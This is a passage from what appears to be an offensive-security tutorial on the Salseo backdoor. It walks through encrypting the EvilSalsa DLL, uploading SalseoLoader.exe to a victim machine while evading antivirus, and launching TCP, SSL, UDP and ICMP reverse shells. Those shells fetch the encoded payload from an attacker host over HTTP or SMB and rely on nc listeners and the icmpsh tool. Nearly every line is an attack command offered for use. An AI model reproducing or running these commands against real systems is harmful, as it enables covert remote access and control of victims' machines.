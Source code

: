 ### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsa.dll password evilsalsa.dll.txt
```

Ok, now you have everything you need to execute all the Salseo thing: the **encoded EvilDalsa.dll** and the **binary of SalseoLoader**.
**Upload the SalseoLoader.exe binary to the machine. It shouldn't be detected by any AV...**

## Execute the backdoor

### Getting a TCP reverse shell (downloading encoded dll through HTTP)

Remember to start a nc as the reverse shell listener, and a HTTP server to serve the encoded evilsalsa.

`SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>`

### Getting a TCP reverse shell SSL (downloading encoded dll through HTTP)

`SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt ReverseSSL <Attacker-IP> <Port>`

### Getting a UDP reverse shell (downloading encoded dll through SMB)

Remember to start a nc as the reverse shell listener, and a SMB server to serve the encoded evilsalsa (impacket-smbserver).

`SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>`

### Getting a ICMP reverse shell (encoded dll already inside the victim)

**This time you need a special tool in the client to receive the reverse shell. Download:  [https://github.com/inquisb/icmpsh]**

**Disable ICMP Replies:**
```sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```

**Execute the client:**

`python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"`

**Inside the victim, lets execute the salseo thing:**

`SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>`

